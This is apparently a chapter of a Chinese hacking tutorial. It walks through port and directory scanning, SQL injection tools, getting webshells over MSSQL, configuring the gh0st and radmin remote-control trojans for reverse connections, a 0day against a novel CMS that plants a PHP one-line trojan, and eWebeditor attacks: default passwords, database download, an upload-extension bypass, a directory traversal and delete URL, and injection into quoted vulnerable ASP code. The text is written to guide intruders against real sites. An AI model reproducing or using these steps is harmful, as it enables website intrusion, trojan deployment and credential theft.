Starting Nmap 4.76 ( http://nmap.org ) at 2009-01-3 ...
Initiating Ping Scan ...
Scanning ... [5 ports]
Completed Ping Scan ...
Initiating Parallel DNS resolution ...
Completed Parallel DNS resolution ...
Initializing SYN Stealth Scan ...
Scanning ... [1000 ports]
Discovered open port 80/tcp on 220.181.6.19
Completed SYN Stealth Scan at 21:30, 26.38s elapsed (1000 total ports)
Initiating Service scan at 21:30
Scanning 1 service on 220.181.6.19
Completed Service scan at 21:30, 11.89s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 220.181.6.19
Warning: Hostname www.baidu.com resolves to 2 IPs. Using 220.181.6.19.
Retrying OS detection (try #2) against 220.181.6.19
Initiating Traceroute at 21:30
220.181.6.19: guessing hop distance at 9
Completed Traceroute at 21:30, 0.25s elapsed
Initiating Parallel DNS resolution of 11 hosts. at 21:30
Completed Parallel DNS resolution of 11 hosts. at 21:30, 2.69s elapsed
SCRIPT ENGINE: Initiating script scanning.
Initiating SCRIPT ENGINE at 21:30
Completed SCRIPT ENGINE at 21:30, 3.23s elapsed
Host 220.181.6.19 appears to be up ... good.
Interesting ports on 220.181.6.19:
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 1.3.27
| robots.txt has 2 disallowed entries
|_/baidu /shifen/qgzd.html
|_ HTML title: ...
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
No OS matches for host
TCP Sequence Prediction: Difficulty=226 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
TRACEROUTE (using port 80/tcp)
HOP RTT  ADDRESS
1   47.00 220.181.6.19
Nmap done: 1 IP address (1 host up) scanned in 50.02 seconds
```

图1  
图2

我把其中有明显字体颜色区别的信息截出来给大家看看，如图2。

大家看到了没有，扫描到了 80 端口，而且还探测到了 Web 服务是 apache 和对应的版本号。在标记的端口下面还看到扫描到了 robots.txt 这个文档（至于这个文档的作用将在后面讲到）。

说到端口扫描，又不得不提到 superscan 这款工具，从以前的 3.0 版本到现行的 4.0 版本，都一直有其特别之处。不过，我还是比较钟情于 3.0 版本，比较高效准确。该工具既可以对单个 IP 进行扫描，也可以大范围地批量扫描，而且还能对域名进行反查 IP 后再进行扫描，基本具有其它端口扫描工具的所有优秀功能，如图3。

运行工具后，在 lookup 对应的那一栏中填入域名，然后单击“lookup”就可以进行 IP 反查了。在进行端口扫描的时候，我们只选择“all ports from”这一栏，范围在 1-65535，是可以自定义的，而且端口号也是可以自定义。

在 4.0 版本中，很多新手都不会用，包括我在使用时也迷糊，因为在默认情况下，几乎扫描不出任何端口。例如我扫描 www.nohack.cn，结果如图4。

我们可以看到，一个端口都没有扫描到。看来默认设置是不行的，需要改动一下，先在“host and service discovery”里，把“udp port scan”前面的勾去掉，然后再把“scan type”改成“connect”就可以了，如图5。我们再来扫描一次，看下结果，如图6。

如果要查看详细的结果，可以点击底部的“view html results”按钮。在 4.0 版中，还提供了一些其它功能，如域名注册信息等，我们选择“tools”标签项，点击“Crsnic whois ip”前的按钮，显示结果如图7。

这只是基本的扫描操作，至于其它功能大家可以自己去尝试，这里就不再赘述了。端口扫描就粗略地说到这里，接下来我们看一下目录扫描有哪些软件。

目录扫描都是针对 Web 服务的，一般有两种方式，一种使用的是相当于搜索引擎的爬行原理，另一种的原理就是基于字典大小的暴破。

这里先讲一下字典的暴破吧。所谓的暴破就是一个一个地猜，猜对了即可。也就是如果你的字典容量够大，其中的关键字组合够多，那么猜对的几率就会越大，但所消耗的时间会越长。

说到这里，我们就得看一下字典的高效性了。一般来说，一个职业黑客会在入侵的过程中把他遇到的目录信息都放到自己的字典当中，这样下次再做相关的暴破时效率就会大大提高，这是大家需要养成的好习惯。

扫描目录很多朋友都喜欢 wwwscan，CMD 下输入程序名 wwwscan 就可以看到程序相关参数和使用方法了，如图8。

这个扫描工具最大的优点在于支持 ssl 扫描，可以自定义扫描端口和指定目录，这给攻击者带来了很大的灵活性。如果只想做简单的扫描，可以直接输入命令：`wwwscan hostname/ip`，如：`wwwscan www.nohack.cn`，默认的是对 80 端口进行探测，如图9。

看到结果了没有？除了目录，还探测到了 Web 服务的服务器版本和系统版本号，强大吧！如果想对 bbs 下的目录继续探测，我们可以使用命令：`wwwscan www.nohack.cn -r "/bbs/" -p 80`，如图10。

如果想探测 bbs/admin 下的文件和目录，只需要将命令中的路径目录修改成 `/bbs/admin/` 就可以了。经过不断地深入，一些敏感文件和目录就出现在你面前了。当然，前面已经提到过，成功率取决于字典的大小，其中关键字的收集就要在平时多关注了。

除了字典暴破外，我们接下来看看网络蜘蛛爬行原理。网络蜘蛛即 Web spider，是一个很形象的名字。如果把互联网比喻成一个蜘蛛网，那么 spider 就是在网上爬来爬去的蜘蛛。注意了，**网络蜘蛛是通过网页的链接地址来寻找网页的**，一般从网络某个页面（通常是首页）开始，读取网页的内容，找到网页中的其它链接地址。然后通过这些链接寻找下一个网页，这样一直循环下去，直到把这个网站所有的网页都抓取完为止。

说到这里大家就应该明白了，网络蜘蛛其实就是一个爬行程序，一个抓取网页的程序。黑色技术出品的 spider 1.0 就是这样一个典型的例子，它能够快速爬行出网站的页面，运行程序后显示信息如图11。

我们只需要输入命令：`spider -x -i ... www.baidu.com`，程序就开始对 www.baidu.com 这个网站进行爬行了，如图12。

对网站爬行需要耗费很长时间，大家要有耐心哦，呵呵。除了这种命令行下的工具外，现在比较流行的综合工具 jsky 和 Web Vulnerability Scanner 5 也带这样的功能，我们到后面再介绍吧。

#### 4.1.2 注入工具

谈到 Web 就离不开 SQL injection！在脚本攻击盛行的今天，注入工具也开始多样化和高效化了，首先介绍最常用的啊D注入工具，运行后界面如图13。

和其它注入工具比起来，啊D 的最大优点便是批量扫描注入点了。在“扫描注入点”这一选项框中，输入检测网址：“www.Google.com”，然后以关键词：“inurl:asp?id”进行搜索，如图14。

这个时候啊D便会自动检测网页链接中的注入点，因为 Google 默认搜索结果一页显示的是十项，我们可以进入“advanced search”里后将“results per page”改成 100，如图15。

这时再次搜索，结果令人兴奋，如图16。

看到了吧？效果还是不错的。俗话说，优点就是缺点，其批量扫描注入点的功能在准确性上不是太理想，误报时有发生。大家注意看图16中的结果，第2和第3行 Google 的连接就被误报出两个注入点。

因为是注入工具，所以找到注入点后需要的操作，如猜表、猜列名、猜后台等，这个工具都可以完成。

我们随便找个注入点，右键选择“注入检测”，现在“注入连接”处已经有地址了，我们直接单击“检测”，不一会儿就可以看到结果，如图17。

这里有一点要提前说明一下，那就是要注意，不同的数据库，要不同地对待。大家还记得前面提到过的数据库知识吧？啊D只支持 MSSQL 和 ACCESS 数据库，一般碰到 ACCESS 数据库的做法是猜后台、猜表、猜列名。

我们看到图17中提示的是 ACCESS 数据库，这时单击“检测表段”，程序会自动检测当前网站数据库中有多少个表段。如图18，猜解出了一个“news”表段。

接下来当然是继续猜解了，我们双击猜解出来的“news”表段，但很遗憾，没有猜出任何字段了。对于 ACCESS 数据库猜解的基本操作就是这样，有时猜解出来的结果可能是明文（即没有经过任何加密方式加密）或密文（大多数为 md5 加密），我们拿到用户名和密码就可以找后台进行登录了。

如果我们扫描到的注入点是 MSSQL 的数据库呢？如图19。

如果数据库类型为 MSSQL，接下来的操作除了和 ACCESS 数据库的一样外，还可以利用 DB 权限列目录。大家可以看到，在图19中当前的权限为 DB，不是 SA，如果是 SA 就可以使用第二章中所讲到的方法提权了。

虽然是 DB 权限，我们也是可以通过列目录然后备份的方法来得到 Webshell 的。点击啊D左边的“相关工具”，再按“目录查看”就会开始猜解内容了，如图20。

可惜了，又是一个意外情况，如果不出现意外，我们是可以看到 C 盘内容的。这个工具还有旁注/上传的功能，输入要查询的网址，就可以查看这个 IP 上到底有多少个域名了，如图21，不过实战中用得比较少。当然了，如果权限是 SA 的话，我们可以再利用“CMD/上传”来执行命令或者上传 ASP 等脚本文件。好了，讲了这么多，我们再来看看教主写的 HDSI 这款工具，运行后界面如图22。

和啊D的功能相比，其吸引人的就是 getWebshell 和 php 注入了。而且我前面已经说过，啊D 的误报率比较高，我们来对比两张图，如图23、图24。

看到没，啊D 检测出来的注入点数据库为 ACCESS 或其它，而 HDSI 检测出来的是 PUBLIC 权限的 MSSQL 数据库。工具是人写的，程序误报很正常，一个注入点是不是真正地可以注入，除了依靠工具外，还得学会自己手工检查。

对于 HDSI 来说，在“高级命令”这一栏里有一个功能比较引人关注，那就是“开启3389”，如图25。当然了，这些功能都是建立在 MSSQL 数据库的 SA 权限上使用的。在“getWebshell”这个功能里，主要的原理是利用了备份，备份的关键是要得到目标站点的物理路径，如图26。

至于 PHP 注入功能，可惜的是还需要输入 php 关键词，因此这个功能用得不是太多。一般来说，攻击者主要是利用这个工具对付 MSSQL 的注入点。

还有一款比较有资历的工具，那就是 NBSI，其功能除了其它工具都有的列目录、读注册表、执行命令等，速度和准确性都不错。我们将刚才用啊D和 HDSI 都没有检测出来的那个站作为测试，NBSI 的检测结果如图27。

看到没有，不仅把当前用户检测出来了，还检测出来了当前库名，而且程序还在继续检测，这说明 NBSI 在准确性上确实很高。另外，NBSI 在执行命令（SA 权限下）时，可以利用 sp_oacreate 和 JOB 的方式来执行，这点我想大家在第二章里就遇到过了。如图28，为执行命令时的情况，其它功能大家自己研究吧。

我们已经提到了 MSSQL 类型和 ACCESS 类型的注入工具，还没有提到 MYSQL 类型的。前面讲 MYSQL 弱口令的时候，大家都知道和 MYSQL 搭配的脚本语言一般为 PHP。而 PHP 如果发生注入的话，除了常见的猜表外，还有读取文件甚至直接通过注入写 shell。不过就一般经验而言，如果是猜表的话，利用工具就够了，但一般 PHP 的手工注入还是比较简单的。

这里我演示一下 casiv 4.0 版这款 MYSQL 类型数据库注入工具。在找到注入点后，只要单击“scannum”按钮就会自动找出有多少个字段了，如图29。

看到了吗？一共有九个字段，在第一个和第八个字段的地方有内容显示。接下来可以尝试进行暴一下源代码之类的工作，工具上面的提示也已经很清楚了。

图3  
图4  
图5  
图6  
图7  
图8  
图9  
图10  
图11  
图12  
图13  
图14  
图15  
图16  
图17  
图18  
图19  
图20  
图21  
图22  
图23  
图24  
图25  
图26  
图27  
图28  
图29

以爆后台、爆表列等。因为 PHP 注入没有 MSSQL 灵活，所以我推荐大家在学习的时候还是手工注入为好，用工具的不可预知情况太多。

说完了这些老工具，就不得不提到一些新工具了，具有代表性的就是 pangolin，它支持多种数据库的注入，如比较少见的 oracle 和 informix 等都支持。运行程序后，界面如图 30，功能还是比较强大的。


图30

注入类的工具就说到这里吧，我只选取了几个比较有代表性的进行了演示，还有一些工具没有提到。对于注入来说，不管是哪一种，工具并不太靠谱，大家学会手工注入才是王道，这样应付各种情况时就可以随机应变了。

## 4.1.3 数据库类的工具

其实这类工具就是在知道用户名和密码的情况下进行上传文件、对注册表进行操作等，其中在第二章讲到的“SQL 综合利用工具”就是这样的一个例子。使用该程序连接上主机后，在“利用目录”这个菜单里有许多命令可以选择，如“执行 DOS 命令”，执行后的效果如图 31。


图31

图32

这里只是粗略地提一下，让大家知道有这么一个工具，像“查询分析器”这个工具也属于此类。它们在管理员手中就是一个管理工具，在入侵者手中就是一个攻击武器。

这里给大家介绍个工具“mssql 上传利用工具”，如图 32。在 sa 权限下如果无法执行命令，又无法通过备份得到 shell 的话，可以利用此工具远程写一个脚本木马到服务器上。

这里有一点要注意，文件一定要是 txt 格式的，保存位置当然是指目标服务器的物理路径了，如 c:/wwwroot/2.asp，这样 txt 格式的脚本文档就可以直接转成 asp 格式的。

通常，国内的这些工具应付一些常见的攻击就是够了，而国外的工具还可以对各种数据库服务器进行检测，找找数据库有哪些漏洞。我就拿检测 MSSQL 的一款工具“NGSSQuirreL for SQL Server”来做说明，运行程序后界面如图 33。

这个工具也是可以自己设置的，默认的是只扫描用户名为 sa，且密码为空的服务器。不过，这些可以在“scan”->“scan settings”里进行设置，如选择字典和要扫描的用户名。

一切设置好后，单击“scan”按钮，然后添加要扫描的主机（可以对单个 IP 或进行大范围的 IP 段探测）。接着在左侧的树状列选中主机，在主机名上按鼠标右键选择“scan this host”就会自动检测了，检测进度如图 34。


速度很快，一会儿便看到了扫描结果，如图 35。

192.168.1.203 是一台用户名为 sa、密码为空的机器。程序竟然可以把所有的相关信息都列出来，我们随便找一项打开看看，如图 36。

蓝色是得到的一些服务器信息，而红色则代表服务器存在的一些问题，如图 37。


怎么样？是不是感觉功能很强大？我想，作为网管的话，用这款工具检测自己的数据库服务器还是比较好的，而用在攻击者的手中就很让人不安。NG 系列还有针对 oracle 等其它数据库的工具，大家可以到网站 http://www.databasesecurity.com/ 了解更多关于数据库方面的工具，这里就不再讲了。

#### 4.1.4 综合检测类工具

所谓的综合检测类工具，自然是指将各类其它工具常用的功能集合在一起的程序，这里我向大家推荐三款。首先看看国人开发的 x-scan（其实流光也不错的），在“设置”按键里，我们可以看到许多的选项，如图 38。

功能很多哦，各种弱口令都可以探测。不过说句实话，因为这款工具开发得较早，现在用起来就有点过时了。这款工具的一个特点就是可以自定义字典扫描，只要双击在“字典文件设置”右侧出现的字典文件，就可以使用自己收集的字典来进行探测，如图 39。


图37

图38


图39

这个功能现在很多时候其实是可以用到的，如内网渗透时，把收集到的管理员信息做成一个字典，然后进行暴力探测。

接下来介绍的也是国人写的软件 isky，功能也不错，而且是才开发出来没有多长时间，所以能够自如地适应现在的网页扫描。原理是通过蜘蛛爬行找出 URL，然后判断是否有注入，是否有 XSS 等危害。

运行程序后，点击“FILE”，选择“new scan”，在“url”里填入你欲扫描的网址，如图 40。接着便可以一路“next”直到“finish”就完成了扫描的配置。这时再点击“scan”便可以开始扫描了。


图40


图41

速度还不错，扫描结果如图 41。如果网站比较大的话，那就挺耗时间的。

先看左侧，一些敏感的目录以及目录下面存在的文件都被扫描出来了。再来看右侧，如“sql injection”等一些漏洞都显而易见了，我们可以打开“+”号看到存在漏洞的地址。而且 isky 自带 pangolin，当我们从展开的“sql injection”里看到有注入网址后，右击选择“pen-test this vulnerabilities”就会自动加载当前 URL 到 pangolin 进行注入检测，如图 42。

接下来还要介绍一款工具，名字叫做 Web Vulnerability Scanner，这款国外软件的功能也很强大（不是一般的强大哦），块头也比较大，扫描的时候比较占 CPU 和内存资源。


图42

运行程序后，如果只做目录扫描的话，点击“Web scanner”，在“start url”里填入你要扫描的网址，然后点击“start”即可。过一段时间后，我们便可以查看结果了，如图 43。


图43

除此之外，这款工具还有一些其它功能，如 HTTP Sniffer 和 HTTP Fuzzer。其中的 HTTP Fuzzer 功能可以暴力猜解后台或者表名。这里我们先不涉及，需要的时候我们会提到！

好了，这一小节主要是对相关工具进行了一些简单的讲解，只是让大家了解一下有哪些功能。其实在实战的时候，说不定这些工具都用不上，或者都起不了作用。当然，这里的几款工具是比较有代表性的，还有好多优秀的工具我都没有提及，在后面如果涉及到了就会好好讲一下。

还是那一句话，工具是死的，人是活的，不要太信赖工具，这样才会有深层次的提高。当然，多了解一个工具，思路或者方法可能就会更加灵活。那么，除了注入工具以外，这里还有一类工具需要为大家说明，那就是远控类的软件。

#### 4.1.5 远控软件

像大家平常所听说的“灰鸽子”，它就是这种类型的软件。远控类软件的优点在于服务端比较隐蔽，不容易让人发现，而且操作也比较简单。特别是在一些提权等问题上，还是比较有优势的。而所谓的远控大体上来说分两种类型：一种是直连型的；一种是反弹型的。

直连型远控大家应该比较好了解，就是让服务端在目标服务器上运行。这种类型的缺点就是容易受到网络环境的限制，如果目标服务器在内网或者有防火墙的阻拦，连接就很困难了。这类软件的代表则为 radmin 远控。反弹型远控是让服务端自己去寻找客户端，如果处于内网的话，只要能上网，就可以对外连接，这类软件的代表则是“灰鸽子”。

那么我们首先来看一下 radmin 的使用。由于 radmin 版本的差别，所以配置文件也就有所异同，这里我以 radmin 3.2 为例，配置文件如图 44。


图44


我们只需要点击“配置 r_server”就可以开始配置服务端了，这里主要是设置服务端的密码，其它的可保持默认，如图 45。

如果这里不设置密码的话，就可能沦为别人的 4899 弱口令肉鸡。设置完密码后，把文件、r_server.exe、AdmDll.dll 以及 raddrv.dll 上传到目标服务器上去运行即可，然后用 radmin.exe 连接目标服务器，如图 46。

连接上去就可查看目标主机的整个屏幕了，如果你移动鼠标的话，在管理员的桌面上，鼠标指针也会跟着动。当然，其它功能，如 telnet、传文件等我就不细说了。

接下来我们看一下反弹型的远控，这里我粗略地用 gh0st（因为 gh0st 比较简洁）来演示一下如何在内网上线。其实内网上线并不难，关键是要把自己的端口映射出去，这就要通过路由器了，而路由器上的操作是关键。

首先看下自己的 IP，执行命令：`ipconfig`，结果如图 47。


大家不要看晕了，因为我装了虚拟机和其它设备，所以一台机器里有多个 IP。大家只看“本地连接”这一项就可以了，我的内网 IP 是 192.168.1.121，网关是 192.168.1.1。

gh0st 支持两种上线方式，这里我演示一下 HTTP 上线。当然了，如果你以外网 IP 来进行上线的话，路由器重启后则外网 IP 就会变动。如果是用域名上线，我们也只需要把域名指向的 IP 改动一下就可以了。

我用到的免费域名是希网（即 www.3322.org）提供的，大家可以免费去注册一个，这里我就不讲解如何注册了。接下来我们到路由器里看一下，在浏览器里输入 `http://192.168.1.1`（不同路由器设备会有不同的访问地址）后访问，便会弹出一个权限认证框，输入用户名和密码即可（在网吧，一般网管都会为路由设置一个密码，所以在网吧上线无法利用这种方法）。进入后的显示信息如图 48。

从图中我们可以得到的信息是外网 IP 为 58.52.80.110，这是一个重要信息。

在免费域名管理程序中把自己的域名指向这个 IP，我申请的域名为 hackbus.3322.org，在“IP 地址”那里填入 58.52.80.110，如图 49。

好了，接着需要在本地架设一个 Web 服务器。由于我计算机本身装有 appserver（是一个软件，集成了 php、mysql 等），如果大家嫌麻烦的话，可以直接用“小旋风 AspWebServer”，这样本机就有了一个 Web 环境。

现在其它网络还访问不了我们本机的 Web 服务，因为还没有在路由器里做设置。我们先来配置服务端，打开 gh0st，点击界面下方的“settings”标签项进行设置。由于 80 端口已经被 Web 服务占用了，我们就用其它端口代替，如 88。一切设置完毕后，如图 50。


图49


图50


图51

接着选择“build”标签项，按照如图 51 所示进行配置。

下一步就是在我们的 Web 目录下建立一个 test.txt 文件了，然后把上线字符串写入到其中。好了，接下来是最关键的端口映射了，需要进路由器设置。仍然访问 http://192.168.1.1，输入用户名和密码进入路由器设置页。我们来到“转发规则”里，按照如图 52 所示进行配置。

这里有几点要说明，那就是不同的路由器可能选项不一样，但功能都是差不多的。页面中的“服务端口”就是要转发的端口，如 80 和刚才监听用的 88；后面的“IP 地址”则对应到我本机在内网中的 IP；“协议”设置成 ALL（全选）就行了，然后“保存”。

这样设置的意思就是让别人访问 58.52.80.110 的 80 端口时，就访问到内网中 192.168.1.121 的 Web 服务。现在访问一下 http://hackbus.3322.org/test.txt，可以看到，显示出我们所写的字符串了，如图 53。

这里有人可能会问：为什么要映射两个端口呢？因为其中的 80 端口是提供给上线的 HTTP 空间用的，另一个则是客户端监听端口，当然要转发两个了。如果你的配置没有问题的话，一般几分钟后就会成功上线了，如图 54。


图52


图53


图54

其实只要你懂上线的原理了，上线就不是什么难事，不管它是处于何种环境，大家要学会举一反三。外网上线就省心多了，不需要在路由器里面进行操作，这里就不多加说明了。

好了，关于工具方面就讲这么多，如果大家细心点，其实每个软件都有自己的说明文件，或者一些演示视频，不会的话可以做些参考。注入或者扫描类的工具大家可能容易上手些，最后讲到的远控类工具或许令好多人还是一头雾水。大家要多看、多练习，这样在实战的时候才能得心应手。

## ☆ 4.2 整站系统的利用

大家见过的一些论坛、留言板、博客、新闻发布系统等，其实都是用一些脚本语言开发出来的。由于开发者的一些疏忽，就会存在一些问题。而一些严重的问题则有可能导致攻击者拿到 shell，甚至是服务器的权限。由于一些程序的使用性比较广，一旦出了问题，如发现了一些 SQL injection、XSS，甚至直接写文件等漏洞的话，后果是不堪设想的。如图 55，这些是本人收集的部分程序的漏洞利用工具，我们可以看到，其中涉及到许多网络上常见到的论坛及 CMS 系统。

拥有这些工具对于入侵者来说无疑是如虎添翼，这里我以“杰奇小说连载系统 0day 利用程序”为例给大家演示一下，如图 56。


图55


图56

首先自然得先找到使用“杰奇小说”这款系统的网站，我们可以在 Google 上利用关键词：“inurl:'register.php' intitle:'小说'”进行搜索。如果找到一个合适的站点，就可以攻击了。至于 Google 的搜索以及关键词的确定，我们在后面的章节中会涉及到。

攻击成功的话，会返回如图 57 的页面信息，这样就会在目标服务器的网站根目录生成文件 luoye.php，而里面的内容则为 php 版的一句话木马。接下来我们可以用客户端连接上去，查看一些服务器的信息，如图 58。


图57

这样的事的确让人难以相信，因为攻击者根本不需要花费时间和精力去找漏洞，而只是带着利用工具去找攻击目标。**一般把这种没有对外公布的漏洞利用程序称之为 0day。**

我演示的这个漏洞利用工具只是针对 php 版相关程序的，现在 asp 版的程序漏洞更是数不胜数，而 jsp 程序同样面临着这类问题。不仅仅是 blog、论坛会面临这样的问题，像管理系统、ERP 系统、一些学校的查分系统等都是可以被发现出漏洞从而被攻击。这就是为什么一些攻击者通常都会很关注一些安全站点或者黑客类的站点，因为这类站点通常会发布一些比较新的漏洞 poc 或者利用工具。

自己除了会搜索某个程序的漏洞外，还得增强脚本分析和发掘漏洞的能力。因此，如果想做一名高深的黑客的话，学习一下基本知识是很有必要的，如“非安全”出版的《精通脚本黑客》就是一本不错的书，对脚本入门的朋友会有很大的帮助。


图58

### 4.3 各类编辑器的入侵及下载程序在入侵中的作用

### 4.3.1 eWebeditor 漏洞库转载

大家每次上网看网页或者新闻的时候都会惊叹，这些文章或者图片是怎么处理成这些样子的呢？除了一些整站系统程序自带的编辑功能外，现在出来了不少编辑器，而比较著名的有国内的 eWebeditor 和国外的 FCKeditor。正因其广泛的使用，所以一些黑客便把目光瞄准了这些编辑器，并且爆出了不少的漏洞。我们还是先来看一下 eWebeditor 吧，后台登录页面如图 59。


图59

默认的用户名和密码组合为：admin/admin 或者 admin/admin888。如果输入默认的用户名和密码进不去的话，可以尝试下载其数据库进行查看，数据库的默认地址为 db/eWebeditor.mdb，如果管理员没有修改的话，就可以下载后查找到管理员的用户名和密码，然后再登录后台，成功进去后的界面如图 60。


图60


图61

进去后台以后如何拿到 WebShell 呢？首先点击“样式管理”，如图 61。

我们现在看到的就是样式名以及相关属性了。一般情况下是选择最下面的样式名，然后双击后面的“设置”，接着在“图片类型”处添加上 asa 后缀，如图 62。当然，你改成其它类型也是可以的，但不能设置成 asp 格式。因为 asp 后缀默认是被过滤的，不过可以上传 aaspsp 后缀，过滤后就成 asp 后缀了。


图62

一切设置好后单击“提交”就行了。这里也许会遇到意外情况，如果单击“提交”后不能成功，原因之一就是管理员把数据库设置成了只读，不能更新了；原因之一就是管理员对程序做了手脚。这样，就不能通过此方法拿 Webshell 了，这里我们只演示成功后的操作。

成功以后，因为我们是要上传“图片类型”里允许的后缀文件，所以还要检查一下图片上传这个按钮在这个样式里是不是存在。我们点击“工具栏”来到如图 63 所示的画面。


这里可以“新增工具栏”，就是再增加一个工具栏名。不过这里已经有三个工具栏名了，只需要进行修改即可。我们利用“格式工具栏”，单击“按钮设置”，来到如图 64 所示的画面。

我们仔细看一下右边的“已选按钮”，是没有上传图片这个功能的，所以要在左边的“可选按钮”中找到它，就是“插入或修改图片”。接着单击一下“→”将功能加入，然后再“保存设置”就可以了，如图 65。


保存设置成功后我们还是返回到“样式管理”，来到刚才设置的样式处，单击“预览”，会重新弹出一个页面。接着我们就可以利用上传图片的地方上传 asa 格式的木马了。单击图 66 中所圈的按钮，选择 asa 格式文件进行上传，成功后如图 67。


那木马是被上传到哪里去了呢？我们可以通过单击编辑器下方的“代码”来查看局部地址，如图 68。知道局部地址后，然后再加上前面的 URL，合在一起进行访问就可以使用我们的后门木马了，如图 69。

现在我们可以轻而易举地拿到 Webshell 了。可是如果管理员把默认密码修改了怎么办？就算下载到数据库，也有可能因为管理员密码过于强悍而无法破解，这个时候我们该怎么办呢？


还是拿刚才的这个站点来说吧。我们首先下载它的数据库，打开它的 eWebeditor_style 表，这个就是样式表了。我们看一下刚才操作过的 s_light 样式名，再看一下 S_FileExt 这个字段下的内容，如图 70。


图 69

| S_ID | S_Name   | S_Dir    | S_CSS    | S_UploadDir | S_Width | S_Height | S_Memo         | S_If | S_FileExt                    |
|---|---|---|---|---|---:|---:|---|---:|---|
| 14 | standard | standard | office   | UploadFile/ | 550 | 350 | Office标准风格 | 1 | rar\|zip\|exe\|doc\|swf |
| 22 | s_full   | standard | coolblue | UploadFile/ | 550 | 650 | 蓝色清爽       | 1 | rar\|zip\|exe\|doc\|swf |
| 23 | s_light  | standard | light    | UploadFile/ | 550 | 350 | Office标准风格 | 1 | rar\|zip\|exe\|doc\|swf |
| 24 | s_blue   | standard | blue     | UploadFile/ | 550 | 350 | Office标准风格 | 1 | rar\|zip\|exe\|doc\|swf |
| 25 | s_green  | standard | green    | UploadFile/ | 550 | 350 | Office标准风格 | 1 | rar\|zip\|exe\|doc\|swf |

图 70

看到这里大家想到什么了？有些技术不太成熟，或者比较马虎的攻击者，在入侵之后并没有清理自己做过的操作。有了这样的条件，我们即使不登录后台，一样可以通过构造好的 URL 上传我们的 ASA 木马。我们构造的 URL 地址为：“http://xx.xx.edu.cn/newsadmin/eWeb/eWebeditor.asp?id=45&style=s_ligh”，访问后如图 71，我们就可以通过那个“上传图片”的按钮（最后一排左起第一个）上传 asa 木马了。


图 71

这里把用到的参数解释一下，大家看图 70：

- 在 S_ID 下面最后的编号为 45，所以 id=45；
- 而这个 45 对应的 S_Name 值为 s_ligh，所以 style=s_ligh；
- 而调用这些参数的文件名为 eWebeditor.asp。

在前面我们说过，如果数据库被设置成了只读，或者管理员动了手脚，那是不是就没有机会利用了呢？那可不一定，eWebeditor 的 ASP 版（到目前为止，我们所讲的内容都是针对 ASP 版的）还有一个遍历目录漏洞，我们可以利用一下它。进入后台来到“上传文件管理”，在“选择样式目录”那一栏下随便选择一个就可以了，这时会看到浏览器窗口显示这样的地址链接：http://xx.xx.edu.cn/newsadmin/eWeb/admin_uploadfile.asp?id=22，id 后面的数字根据你选择的目录不同而有所变化。我们先来看一下没有构造前的效果，如图 72。接着我们在 id=22 的后面加上代码：“&dir=..”，然后访问，效果如图 73。呵呵，上层目录便全部展现在我们的面前了。刚才加的“&dir=..”就是显示上一层目录内容的意思。


图 72


图 73

如果想接着往上看，可以继续添加如：“&dir=../../”的目录路径就可以了。如果想删除指定目录，构造的 URL 格式为：“&dir=../../&action=delfolder&foldername=目录或文件名”，这里我就不截图了。

说了这么多，你会发现，这些操作都是基于后台进行的，如果连后台登录页都没有了，那么攻击者还有可乘之机吗？答案是：有的！在 eWebeditor 的 2.1.6 版本之前有一个很严重的上传漏洞，漏洞文件名为 **upload.asp**。这个文件在上传时有一个参数过滤不严，导致攻击者可以利用注入来控制上传的样式，直接得到 Webshell。我顺手写了一个利用工具，exp 的界面如图 74。


图 74

里面已经说得很清楚了，我们在这个页面里按鼠标右键查看源文件（或者用记事本打开这个网页程序进行修改），然后修改 action 所指向的地址，接着选择自己的 cer 后缀木马。如图 75，为成功后的页面源文件。


图 75

注意看最下面，可以看到上传上去的 cer 后门木马已经被改名了。接着输入全部的 URL 就可以看到我们的木马了，如图 76。


图 76

一般情况下是保存到 uploadfile 目录里的，而这个比较特殊点，直接传到了 editor 目录下。虽然不像其它情况下的注入那么明显，不过破坏性还是很大的。除了这个注入外，在 eWebeditor 的 2.7.0 版本以下还存在一个地方存在注入，出问题的页面是 **eWebeditor.asp**。

由于没有找到 2.7 版本的，我们就先看一下 2.1.6 版本，相关代码如下：

```vb
' 初始化输入参数
Sub InitPara()

  ' 取全屏标志
  sFullScreen = Trim(Request.QueryString("fullscreen"))

  ' 取对应的内容 ID
  sContentID = Trim(Request.QueryString("id"))
  If sContentID = "" Then ShowErr "请传入调用参数ID，即隐藏的内容窗体项ID！"

  ' 取样式初始值
  sStyleName = Trim(Request.QueryString("style"))
  If sStyleName = "" Then sStyleName = "standard"

  sSql = "select * from eWebeditor_style where s_name='" & sStyleName & "'"
  oRs.Open sSql, oConn, 0, 1
  If Not oRs.Eof Then
      sStyleID = oRs("S_ID")
  End If
End Sub
```

```vb
sStyleName = oRs("S_Name")
sStyleDir = oRs("S_Dir")
sStyleCSS = oRs("S_CSS")
sStyleUploadDir = oRs("S_UploadDir")
nStateFlag = oRs("S_StateFlag")
sDetectFromWord = oRs("S_DetectFromWord")
sInitMode = oRs("S_InitMode")
sBaseUrl = oRs("S_BaseUrl")
sStyleUploadDir = Replace(sStyleUploadDir, "\\", "/")
If Right(sStyleUploadDir, 1) <> "/" Then
    sStyleUploadDir = sStyleUploadDir & "/"
End If
...
ShowErr "无效的样式 Style 参数传入，如果要使用默认值，请留空"
...
' 取版本号及发布日期
sSql = "select sys_version,sys_releasedate,sys_license from eWebeditor_system"
oRs.Open sSql, oConn, 0, 1
sVersion = oRs(0)
sReleaseDate = oRs(1)
sLicense = oRs(2)
oRs.Close
End Sub
```

这里我不可能再回过头去讲一些脚本的基本知识，简单解释一下吧。我们主要看如下几句：

```vb
sStyleName = Trim(Request.QueryString("style"))
If sStyleName = "" Then sStyleName = "standard"
sSql = "select * from eWebeditor_style where s_name='" & sStyleName & "'"
```

其中 Request.QueryString 是取得变量“style”的值并赋给 sStyleName。如果 sStyleName 为空（意思是 style 样式没有值传递过来），就把 standard 赋给 sStyleName，接下来就进行数据查询了。这里是很明显的注入了，我们加个单引号就报错，如图 77。

由于手工注入比较麻烦，我这里选择工具 pangolin 来进行注入。因为默认的 eWebeditor 数据库中，管理员所在的表为 eWebeditor_system，这个表下默认的用户名和密码的列名分别为：sys_UserName 和 sys_UserPass，我们需要手动添加到工具中，最后检测出来的结果如图 78。


说完了上面这些漏洞，再来看一下 ASP 版的另一个比较难利用的鸡肋漏洞，那就是在 Admin_Private.asp 文件中的 Session 欺骗问题，相关代码如下：

```vb
